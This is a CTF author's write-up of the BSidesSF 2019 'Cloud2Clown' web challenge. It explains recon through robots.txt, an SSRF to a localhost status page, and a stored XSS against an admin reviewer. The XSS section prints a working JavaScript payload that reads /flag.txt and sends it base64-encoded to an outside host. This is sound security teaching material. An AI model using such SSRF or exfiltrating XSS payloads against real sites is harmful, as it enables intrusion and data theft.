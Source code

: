 ```yaml
---
layout: post
title: "BSides SF CTF Author Writeup: Cloud2Clown"
category: Security
date: 2019-03-07
tags:
  - CTF
  - BSidesSF
---
```

## The Challenge ##

> Sometimes you see marketing materials that use the word cloud to the point
> that it starts to lose all meaning. This service allows you to fix that with
> clowns instead of clouds. Note: there are 2 flags, they should be clearly
> labeled.

<!--more-->

This was a web challenge with 2 flags hidden inside.  When you visited the
challenge, you saw a very basic web form that prompted only for a URL.

![Cloud2Clown](/img/blog/bsidessf2019/cloud2clown.png)

Giving it a quick try, we see that it requests the page at the URL you provide,
then re-renders it with the word "Cloud" replaced with the word "Clown".
Notably, this is served on `/render`, but on the same
[domain, port, and protocol](https://en.wikipedia.org/wiki/Same-origin_policy)
as the rest of the site.

## Recon ##

So how can we find out more about the challenge?  Well, short of blowing up the
server with dirbuster, there are some URLs that can be useful to check on web
applications.  A couple of examples include:

* `/sitemap.xml`
* `/robots.txt`

There's no sitemap for this site, but there is a `robots.txt` file with the
following contents:

```
User-agent: *
Disallow: /flag.txt
Disallow: /status
Disallow: /flag
Disallow: /hack
```

If we visit each of these URLs in turn, we will find that `/flag.txt` returns
"Forbidden" and `/status` returns "Not in IP whitelist."  `/hack` was a red
herring that lead to my blog, and `/flag` just returns "Invalid URL."

## Vulnerability 1: SSRF ##

(This was actually labeled as flag 2, as it was added as an afterthought.)

Since this is a server that issues outbound HTTP/HTTPS requests, [Server Side
Request Forgery](https://www.owasp.org/index.php/Server_Side_Request_Forgery)
(SSRF) is an obvious candidate.  Since this is well-known to bypass firewalls or
IP whitelists, it looks like this is a good option to go after whatever
information is in `/status`.  Unfortunately, a request to render
`https://cloud2clown-dc9b5aed.challenges.bsidessf.net/status` does not work,
still giving access denied.  This does not work because all of the web services
are behind a [Google Cloud Load Balancer](https://cloud.google.com/load-balancing/),
so the request still appears to come from the outside.  Trying
`http://localhost/status` also fails, this time because it's not running on
port 80.  Since you often won't know the port for a backend service, it may be
necessary to try it.  You can either try brute force or go for the top web
service ports.  In either case, if you try `http://localhost:8081/status`,
you'll find that you get a JSON structure instead of an error:

```
{
  "author": "Matir",
  "flag2": "CTF{ssrf_for_more_than_metadata}",
  "ipWhitelist": [
    "127.0.0.1",
    "127.1.1.1",
    "13.37.13.37",
    "::1"
  ],
  "remoteAddr": "[::1]:56190",
  "reviewQueue": 0,
  "reviewQueueSize": 1024
}
```

One of the elements is clearly the flag we're after:
`CTF{ssrf_for_more_than_metadata}`.

## Vulnerability 2: XSS ##

Since the service blindly renders any page you give it, this will include
rendering JavaScript.  At first, this appears to only be a self-XSS since it
just reflects the rendering back to the player.  However, at the bottom of each
rendered page, there is a bar added that says "Page rendered by Cloud2Clown" and
has a link to "Report Page Error".  Clicking on the button pushed the URL into a
queue to be visited by the admin.  When the admin visited it, any javascript
payload would be executed for the admin, including the ability to request the
`/flag.txt` path.  My canonical test payload was:

```
<script>
fetch('/flag.txt', {mode: 'no-cors'}).then(function(r) {
  r.text().then(function(f) {
    var img = document.createElement('img');
    img.src = 'http://ctf.1337.fyi:3333/' + btoa(f);
  })
})
</script>
```

This sent a request to `http://ctf.1337.fyi:3333` with the flag encoded as
base64.  A quick decode later revealed `Flag 1: CTF{we_hope_that_wasnt_hard}`.

## Conclusion ##

For some reason, players seemed to struggle with this challenge, but all the
admins thought it straightforward.  Have feedback?
Hit me up on [Twitter](https://twitter.com/Matir) or the BSidesSF slack
(@Matir).
